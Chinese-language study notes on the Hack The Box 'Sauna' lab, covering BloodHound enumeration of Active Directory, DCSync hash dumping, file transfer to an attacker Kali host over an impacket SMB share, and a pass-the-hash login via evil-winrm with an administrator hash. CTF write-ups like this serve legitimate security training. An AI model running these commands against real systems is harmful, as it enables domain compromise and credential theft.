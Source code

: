 ```yaml
---
description: SharpHound, BloodHound, Active Directory, ASREPRoasting,DCSync Attack
---
```


# Hack the box - Sauna

{% embed url="https://0xdf.gitlab.io/2020/07/18/htb-sauna.html#shell-as-fsmith" %}

注意事项

在使用sharphound收集AD信息时，不要使用kali自带的sharphound，需要从github上下载最新的bloodhound.exe.

{% embed url="https://0xdf.gitlab.io/2018/10/11/pwk-notes-post-exploitation-windows-file-transfers.html" %}

## Data Exfiltration，数据渗漏

当需要从windows传送文件到kali上时，可以使用netcat。大致思路是在kali上下载好nc.exe，使用python3 -m http.server 这个指令启动一个临时的http服务器。在Windows上将nc.exe下载并使用nc.exe 和kali自带的netcat传送文件。

在使用python impacket中的smb模组时，用impacket-smbserver指令，而不是smbserver.py。当我在使用smbserver.py时，我的kali出现了鼠标光标变成十字状的情况。当使用impacket-smbserver时，需要加上-smb2support，windows net.exe不支持smb1。

```
# Kali Command:
sudo impacket-smbserver -smb2support smb samba_share
# smb 是 smb share 的名字，samba_share是本地文件夹的名字。

# Windows Command:
net use \\10.10.16.3\smb
cd \\10.10.16.3\smb # 将当前的文件夹转到smb
# 注意使用smb而不是samba_share作为Windows上smb share的名字
```

## 数据处理

在将SharpHound.exe产生的zip文件传到kali后，用Upload Data而不是Import Graph来导入文件。

## DCSync 攻击

{% embed url="https://blog.netwrix.com/2021/11/30/what-is-dcsync-an-introduction" %}
关于DCSync 攻击不错的文章
{% endembed %}

总结一下文章的内容就是一些拥有

* Replicating Directory Changes
* Replicating Directory Changes All

权限的账户可以通过request domain replication获得用户密码的哈希函数（hash）。

## 通过WMI和Hash提权

{% embed url="https://www.ired.team/offensive-security/privilege-escalation/pass-the-hash-privilege-escalation-with-invoke-wmiexec" %}

evil-winrm -i 10.10.10.175 -u administrator -H 823452073d75b9d1cf70ebdf86c7f98e

![](.gitbook/assets/admin\_hash.png)
